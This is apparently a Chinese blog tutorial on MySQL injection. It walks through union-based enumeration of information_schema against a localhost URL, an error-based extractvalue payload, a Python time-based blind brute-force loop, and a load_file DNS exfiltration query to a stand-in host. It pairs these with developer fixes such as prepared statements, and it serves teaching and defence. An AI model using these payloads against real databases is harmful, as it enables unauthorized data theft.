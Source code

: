 ```yaml
---
title: mysql注入
date: 2016-12-01T23:11:44+08:00
draft: false
toc: true
comments: true
aliases:
  - /detail/31
  - /detail/31/
tags:
  - sql
---
```


## 2016-12 备份

### 0、样例链接

http://127.0.0.1/sql.php?id=1

### 1、步骤

1. 查看是否存在注入点
2. 使用`union`sql关键字来获取数据
3. 通过查询information_schema数据库元数据如存在什么数据库、什么表、什么数据
4. 联合union和select获取数据
5. 若存在sql关键字检测替换可以：selselectect

### 2、查看是否存在注入点

#### （1）添加单引号`'`

http://127.0.0.1/sql.php?id=1' 报错
原理：

```sql
select * from user where id=1'
```

#### （2）添加 `and 1=1` `' and '1'='1`、和 `and 1=2`、 //返回不同页面

* http://127.0.0.1/sql.php?id=1 and 1=1

原理：

```sql
select * from user where id=7 and 1=1;
```

* http://127.0.0.1/sql.php?id=1 and 1=2

原理：

```sql
select * from user where id=7 and 1=2;
```

* http://127.0.0.1/sql.php?username=b' and '1'='1

原理：

```sql
#正常语句
select * from user where username='b';
注入后语句
select * from user where username='b' and '1'='1';
```

#### （3）使用`or 2>1`和`or 1>2`返回不同页面

略

### 3、查看`union`查看`information_schema`数据库

#### （1）union试探

http://127.0.0.1/sql.php?id=7 union select 1, 'a', 1, 1, 1
原理：

```sql
select * from user where id=7 union select 1, 'a', 1, 1, 1;
```

#### （2）查看有几个数据库

http://127.0.0.1/sql.php?id=7 union select 1,SCHEMA_NAME, 1, 1, 1 from  information_schema.SCHEMATA

```sql
select * from user where id=7 union select 1,SCHEMA_NAME, 1, 1, 1 from  information_schema.SCHEMATA;
```

#### （3）查看数据库中有几张表

查看test数据库表信息
http://127.0.0.1/sql.php?id=7 union select 1,TABLE_NAME, 1, 1, 1 from  information_schema.TABLES where TABLE_SCHEMA='test'

原理

```sql
select * from user where id=7 union select 1,TABLE_NAME, 1, 1, 1 from  information_schema.TABLES where TABLE_SCHEMA='test';
返回
+----+----------+------+------+--------+
| id | username | age  | sex  | salary |
+----+----------+------+------+--------+
|  7 | b        |   18 | 3    |   NULL |
|  1 | user     |    1 | 1    |   1.00 |
+----+----------+------+------+--------+
```

#### （4）查看表中的字段

查看test数据库的user表的字段
http://127.0.0.1/sql.php?id=7 union select 1,COLUMN_NAME, 1, 1, 1 from  information_schema.COLUMNS where TABLE_SCHEMA='test' and TABLE_NAME='user'
原理

```sql
select * from user where id=7 union select 1,COLUMN_NAME, 1, 1, 1 from  information_schema.COLUMNS where TABLE_SCHEMA='test' and TABLE_NAME='user';
```

### 4、查看指定表的数据即可

略，类似上

## 研发视角看常见的 SQL 注入手段

### 直接使用用户输入拼接 SQL 语句 直接通过接口返回

后端 需要 用户输入的数据去查询数据库。此时，如果直接通过拼接字符串的方式构造 SQL 语句，则可能被攻击者通过构造 SQL 的方式查询需其他用户或者敏感数据。

具体示例，参见上文。

解决办法

* 用户输入的数据，通过 数据库提供的 预编译 SQL 方式的能力执行 SQL 语句

### 利用 SQL 执行报错信息获取信息

```sql
use test;
select extractvalue(1,concat(0x7e,(select database()),0x7e));
```

执行以上 SQL 语句，将返回一个错误信息： `ERROR 1105 (HY000): XPATH syntax error: '~test~'`

若 SQL 中报错信息后端没有处理，直接返回给前端，可能会泄漏信息，解决办法：

* 用户输入的数据，通过 数据库提供的 预编译 SQL 方式的能力执行 SQL 语句
* 数据库报错信息，不能直接返回给前端

### 盲 SQL 注入

盲 SQL 注入指的是，利用不同的输入，响应的不同，通过暴力枚举的方式，猜测数据。不同的想用指的是

* 是否报错
* 响应时间不一致

#### 举例 OrderBy 字段

MySQL OrderBy 字段不支持预编译。因此，如果 Order By 字段完全使用用户填写的字段构造 SQL 语句，则存在该问题。比如 用户构造 `if(ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))={},sleep(2),0)".format(str(i), str(j))` 可以根据延迟暴力解出当前库的表名

```python
for i in range(1, 50):
    for j in range(32, 127):
        order = "if(ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))={},sleep(2),0)".format(str(i), str(j))
        start = time.now()
        # 执行 sql
        end = time.now()
        if end - start > 2:
            # 当前字符为 j
            break
```

解决办法

* Order By 在后端有固定的枚举值，不允许用户随便填写

#### OAST 技术

MySQL 场景，执行 `load_file` 可以触发一次 DNS 查询，攻击者只要构建一个 DNS 服务器，即可将相关信息传递给攻击者。

例如

```sql
use test;
select load_file(concat('//',(select table_name from information_schema.tables where table_schema=database() limit 0,1), '.a.b.c.com'));
```

这样，`a.b.c.com` 就会收到一个 DNS 查询：`test.a.b.c.com`

解决办法：禁用外网的 DNS 解析

### 解决方案

所有用户输入的参数，都不可信任，必须完全使用参数化查询（预编译 SQL），针对不支持预编译的字段，必须以枚举值的方式或者严格校验的方式传递给数据库执行（比如 order by 字段）
